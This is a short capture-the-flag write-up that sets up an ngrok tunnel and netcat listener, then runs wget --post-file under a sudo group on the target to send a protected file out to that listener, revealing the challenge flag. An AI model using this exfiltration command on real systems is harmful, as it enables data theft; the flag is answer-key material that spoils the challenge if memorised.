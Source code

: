 
1. First localhost terminal:

```bash
$ ngrok tcp 1223
[...]
Web interface 
http://127.0.0.1:4040

Forwarding
tcp://0.tcp.ngrok.io:15462 -> localhost:1223        
[...]      
```

2. Second local host terminal

```bash
$ ping 0.tcp.ngrok.io                        
PING 0.tcp.ngrok.io (52.15.72.79) 56(84) bytes of data.
^C
--- 0.tcp.ngrok.io ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms

$ nc -lvp 1223       
Listening on [0.0.0.0] (family 0, port 1223)
```

3. On remote server terminal

```bash
puppet-master@2a87f3ade358:~$ sudo -g zetatech-maintenance wget --post-file /home/puppet-master/tech.not http://52.15.72.79:15462
```

And magic appears in our second localhost terminal:

```bash
$ nc -lvp 1223       
Listening on [0.0.0.0] (family 0, port 1223)
Connection from localhost 53726 received!
POST / HTTP/1.1
User-Agent: Wget/1.18 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 52.15.72.79:15462
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 266


.___..___.___..__..___..___ __ .  .
  _/ [__   |  [__]  |  [__ /  `|__|
./__.[___  |  |  |  |  [___\__.|  |


:::: Admin Note ::::

Branch the Zetatech Pad to Cybernetic Prosthetic client and use the following generated password.

:: IMTLD{Wh3r3_d03s_HuM4n1tY_3nd}
```

### Flag

> IMTLD{Wh3r3_d03s_HuM4n1tY_3nd}
